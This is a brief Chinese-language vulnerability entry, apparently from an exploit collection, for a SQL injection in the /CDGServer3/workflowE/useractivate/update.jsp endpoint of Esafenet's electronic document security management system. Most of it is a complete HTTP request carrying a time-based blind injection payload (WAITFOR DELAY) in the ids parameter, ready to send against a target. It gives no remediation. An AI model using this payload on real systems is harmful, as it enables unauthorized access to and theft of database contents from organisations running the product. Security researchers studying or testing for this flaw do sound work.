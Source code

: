 ### 漏洞描述：

亿赛通/update接口下存在sql注入漏洞，flag对输入的数据没有进行严格的过滤而导致SQL注入，攻击者可以利用该漏洞获取数据库敏感信息。

### 影响版本：

亿赛通电子文档安全管理系统

### Payload：
```
GET /CDGServer3/workflowE/useractivate/update.jsp?flag=1&ids=1,3);WAITFOR%20DELAY%20%270:0:1%27-- HTTP/1.1
Host:host
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:109.0) Gecko/20100101 Firefox/117.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Connection: close
Cookie: JSESSIONID=0E05880315C89F32A53653313D83EC57; JSESSIONID=ACDE6D30E6BCEC22E1F90536FEEBD951
Upgrade-Insecure-Requests: 1
Content-Length: 0
```
